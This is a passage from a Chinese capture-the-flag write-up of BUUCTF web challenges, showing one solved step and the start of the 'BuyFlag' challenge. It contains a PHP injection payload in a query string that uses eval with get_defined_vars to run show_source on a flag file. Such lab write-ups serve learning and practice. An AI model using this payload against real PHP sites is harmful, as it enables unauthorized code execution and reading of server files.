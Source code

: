 那么,通过`eval`来执行第二个参数的内容:

```
? num=eval(end(current(get_defined_vars())))&a=show_source('/f1agg');
```

<img src="/images/buuctf-web/image-20221015230302935-166704781973454.png" alt="image-20221015230302935" style="zoom:67%;" />



<br>

***

<br>

# [极客大挑战 2019]BuyFlag

进去查看源码,发现`pay.php`

<img src="/images/buuctf-web/image-20221016155959055-166704781973453.png" alt="image-20221016155959055" style="zoom: 50%;" />
